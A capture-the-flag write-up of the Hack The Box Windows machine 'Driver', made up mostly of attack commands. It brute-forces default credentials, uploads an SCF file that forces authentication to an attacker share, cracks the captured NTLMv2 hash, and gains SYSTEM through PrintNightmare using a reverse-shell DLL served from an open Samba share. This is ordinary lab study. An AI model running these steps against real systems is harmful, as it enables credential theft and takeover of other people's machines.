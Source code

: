 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
### Recon
```bash
nmap -p- -T4 10.10.11.106
nmap -sC -sV -p80,135,445 10.10.11.106
```
- Port [80](HTTP): IIS HTTP, basic auth prompt ("MFP Firmware Update Center")
- Port 135/[445](SMB): Typical Windows services
- `/etc/hosts` entry: `10.10.11.106 driver.htb`

### Web Brute-force
```bash
nmap -p80 --script http-brute 10.10.11.106
```
- **Found**: admin:admin
- Firmware upload page (printer model Ricoh)

### Forced Authentication (Responder Attack)
**SCF Payload**:
```ini
[Shell]
Command=2
IconFile=\\10.10.14.131\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
- Upload `.scf` via firmware update
- Start Responder:
```bash
sudo responder -I tun0 -A
```
- Captured NTLMv2 hash for user `tony`

### Crack NTLMv2 with Hashcat
```bash
hashcat -m5600 captured-hashes.txt /usr/share/wordlists/rockyou.txt --force
```
- **Cracked**: `tony:liltony`

### Access with Evil-WinRM
```bash
evil-winrm -i 10.10.11.106 -u 'DRIVER\\tony' -p 'liltony'
```
- Retrieved `user.txt`

### Enumeration for Privilege Escalation
```powershell
schtasks /query /fo LIST /v > lst.txt
```
- Found job: `C:\Users\tony\appdata\local\job\job.bat`
```bat
@echo off
:LOOP
%SystemRoot%\explorer.exe "C:\firmwares"
ping -n 20 127.0.0.1 > nul && powershell -ep bypass c:\users\tony\appdata\local\job\quit.ps1
DEL /q C:\firmwares\*
cls
GOTO :LOOP
```
- `quit.ps1` closes file explorer window if folder is open

### PrintNightmare Exploit (CVE-2021-1675)
```bash
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675
```
- Generate reverse shell DLL:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.216 LPORT=4444 -f dll > shell-x64.dll
```
- Configure and start Samba:
```ini
[smb]
    path = /tmp
    guest ok = yes
    read only = no
    browsable = yes
```
```bash
cp shell-x64.dll /tmp/
sudo service smbd start
```
- Patch impacket:
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 setup.py install
```
- Run exploit:
```bash
python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 \\10.10.14.216\smb\shell-x64.dll
```
- **Catch shell**:
```bash
nc -nvlp 4444
```

### Privilege Escalation
```bash
whoami
# nt authority\system
cat C:\Users\Administrator\Desktop\root.txt
```

### Summary
- Initial foothold through default creds on printer firmware page
- Forced authentication with `.scf` file to capture NTLM hash
- Used Evil-WinRM with cracked creds
- Privilege escalation using PrintNightmare exploit
- Full SYSTEM access achieved